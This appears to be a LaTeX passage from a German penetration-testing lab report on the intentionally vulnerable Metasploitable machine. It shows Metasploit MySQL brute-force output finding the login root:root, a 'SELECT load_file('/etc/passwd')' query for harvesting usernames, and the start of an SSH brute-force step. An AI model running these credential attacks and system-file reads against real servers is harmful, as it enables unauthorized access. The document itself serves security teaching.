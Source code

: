 \documentclass[a4paper,12pt]{article} %
\begin{document}
\begin{lstlisting}[style=code,caption={Brute-Force Angriff auf MySQL},label=lst:mysql:login:run]
[*] 10.1.1.130:3306 MYSQL - Found remote MySQL version 5.0.51a
...
[*] 10.1.1.130:3306 MYSQL - [08/38] - Trying username:'sqladmin' with password:'sqladmin'
[*] 10.1.1.130:3306 MYSQL - [08/38] - failed to login as 'sqladmin' with password 'sqladmin'
[*] 10.1.1.130:3306 MYSQL - [09/38] - Trying username:'root' with password:'root'
[+] 10.1.1.130:3306 - SUCCESSFUL LOGIN 'root' : 'root'
[*] 10.1.1.130:3306 MYSQL - [10/38] - Trying username:'administrator' with password:'administrator'
[*] 10.1.1.130:3306 MYSQL - [10/38] - failed to login as 'administrator' with password 'administrator'
[*] 10.1.1.130:3306 MYSQL - [11/38] - Trying username:'its' with password:'its'
[*] 10.1.1.130:3306 MYSQL - [11/38] - failed to login as 'its' with password 'its'
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
Es wird somit ein erfolgreicher Loginversucht registriert mit den Logindaten root:root. Über diese gefundenen Logindaten kann sich der Angreifer mit dem MySQL Server der Metasploitable verbinden (\verb!mysql -h 10.1.1.130 -u root -p!). Dem Angreifer stehen nun alle Daten des MySQL Servers offen und er könnte die Datenbank auslesen. Außerdem ist es möglich lokale Dateien über SQL Befehle auszulesen. Der mysql User unter dem der MySQL Server läuft muss dazu lediglich Leserechte auf die Datei besitzen. Somit kann die \verb!passwd! der Metasploitable ausgelesen werden um weitere Usernamen in Erfahrung zu bringen auf die ein Angriff gestartet werden kann. Die \verb!passwd! wird mittels \verb!SELECT load_file('/etc/passwd')! angezeigt. Vielversprechend sind dabei Admin-User wie der \verb!msfadmin! der in der passwd Datei gefunden wird.

\subsection{SSH}
\label{subsection:ssh}
Mit dem im vorherigen Kapitel gefundenen msfadmin User soll nun eine Brute-Force Attacke auf den SSH Login des Server versucht werden. Dazu wird dieser in die User- und Passwort-Wörterbuchdatei hinzugefügt. in msfconsole wird wieder über den \verb!search! Befehl ein geeignetes Modul gesucht. Hierbei wird nun auxiliary/scanner/ssh/ssh\_login verwendet. Diese Modul wird analog zu den Optionen in Listing \ref{lst:mysql:login:options} konfiguriert und anschließend gestartet. Listing \ref{lst:ssh:login:run} zeigt den Output des Angriffs:
\end{document}
